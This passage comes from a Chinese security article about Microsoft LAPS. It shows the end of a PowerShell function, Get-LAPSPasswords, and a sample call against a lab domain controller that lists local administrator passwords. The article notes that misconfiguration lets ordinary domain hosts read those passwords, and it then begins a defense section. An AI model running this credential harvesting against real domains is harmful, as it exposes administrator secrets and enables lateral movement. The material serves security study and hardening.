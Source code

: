                 # Set flag if stored password is not available
                if ($CurrentExpiration -eq "NA"){$PasswordStored = 0}
    
    
                if ($CurrentPassword.length -ge 1){$PasswordAvailable = 1}
    
    
                # Add computer to list if it's enabled
                if ($CurrentDisabled  -eq 0){
                    # Add domain computer to data table
                    $TableAdsComputers.Rows.Add($CurrentHost,$PasswordStored,$PasswordAvailable,$CurrentPassword, $CurrentExpiration) | Out-Null
                }
    
                # Display results
                $TableAdsComputers | Sort-Object {$_.Hostname} -Descending
             }
        }
        End
        {
        }
    }
    Get-LAPSPasswords -DomainController 192.168.40.132 -Credential test.local\Administrator | Format-Table -AutoSize
    

如图

![这里写图片描述](http://static.wooyun.org//drops/20151113/2015111305101429564.net/20151111170900408)

**注：**
    
    
    如果配置不当，我们可以在域内一台普通主机，查看域内其他主机本地管理员账号
    

如图

![这里写图片描述](http://static.wooyun.org//drops/20151113/2015111305101476886.net/20151111170908616)

![这里写图片描述](http://static.wooyun.org//drops/20151113/2015111305101595090.net/20151111170916773)

# 0x06 防御

* * *

## 1、如果未使用LAPS

一定要留意域内主机的本地管理员账号
